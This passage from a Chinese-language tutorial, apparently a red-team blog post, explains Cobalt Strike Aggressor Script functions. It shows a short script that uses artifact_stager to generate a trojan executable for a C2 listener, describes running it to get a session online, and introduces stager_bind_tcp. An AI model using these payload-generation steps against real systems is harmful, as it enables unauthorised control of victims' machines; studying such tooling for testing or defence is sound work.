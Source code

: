 ![](https://mmbiz.qpic.cn/mmbiz_png/4LicHRMXdTzDxJ1g3JhcaY4KQAQpVH99OtmgSPkNjTwoob3mpoYCBOzTLXTglyNVmRIIKNXWe9ydnRA594CCG4g/640?wx_fmt=png)

这里我们使用 Stager 去请求我设置的 URL，所以我们可以将 Stager 理解为加载器，加载远端的代码；在官方文档中是这么解释的：Stager 是一个微型程序，它可以下载有效荷载并且接收，适合运用于有大小限制的程序，例如用户的驱动攻击。

我们可以适应 stager 数据模型将我们的信息打印出来，使用它需要输入两个参数

`$1` Listener 名字

`$2` 选择位数 x86 | x64

我们在控制台可以查看一下： ![](https://mmbiz.qpic.cn/mmbiz_png/4LicHRMXdTzDxJ1g3JhcaY4KQAQpVH99OoCP1whRgpc4fQqd7mFrss6Ehew38OfU64iasQ6VkKPXiaB2xblg2jMMw/640?wx_fmt=png)

其次就是使用 artifact_stager 数据模型生成我们的可执行文件，或者其他类型的木马，他需要接受 3 个参数： `$1` 监听器的名字

`$2` 生成文件的类型，比如 exe

`$3` 选择位数 x86 | x64

下面是`$2` 的可选的参数

<table><thead><tr><th>类型</th><th>说明</th></tr></thead><tbody><tr><td>dll</td><td>一个 dll 程序</td></tr><tr><td>exe</td><td>一个可执行的 exe 程序</td></tr><tr><td>powershell</td><td>一个 powershll 执行程序</td></tr><tr><td>python</td><td>一个 python 的程序</td></tr><tr><td>raw</td><td>原始文件</td></tr><tr><td>svcexe</td><td>一个 svc.exe 程序</td></tr><tr><td>vbscript</td><td>生成 Vbs 文件</td></tr></tbody></table>

我们使用 artifact_stager 进行生成：

```
$data = artifact_stager("Tencent", "exe", "x64"); #选择监听器、生成类型、位数$handle = openf(">Kris.exe"); # 生成的路径，这里是在当前执行的路径下writeb($handle, $data); # 写入closef($handle); # 关闭写入，不关闭会一直卡住
```

我们执行:

![](https://mmbiz.qpic.cn/mmbiz_png/4LicHRMXdTzDxJ1g3JhcaY4KQAQpVH99ODrNKxYhmuHALlk2Y0lgwicmd0G2emhwKc2hEsyNjvOJkCGaWjEINqOg/640?wx_fmt=png)

然后运行这个木马，看看是否可以上线：

![](https://mmbiz.qpic.cn/mmbiz_png/4LicHRMXdTzDxJ1g3JhcaY4KQAQpVH99OP2ml5JH2IIy6M81Z7h9aubHUGL7VgwYHfwQjSq4mn7ZwGWEYiaSiaribw/640?wx_fmt=png)

可以上线，在 GUI 中也是使用的这个 数据模型 创建。

Local Stagers 
--------------

> 本地的 Stager 信息

我们上面提到了监听器的信息有 本地监听器和云端监听器，那么对于本地的正向链接的 TCP Listener 我们就可以使用 stager_bind_tcp 这个数据模型来查看，这个数据模型只能查看 TCP 类型的 Stager，他需要接受三个参数：

`$1` 我们创建的 TCP 监听名字

`$2` 监听器的位数

`$3` 监听器的链接端口

我们使用下面的代码查看一下我们的 TCP stager 信息：

```
$TcpStager = stager_bind_tcp("你的TCP监听器名称","位数","bind to 端口");elog($TcpStager);
```
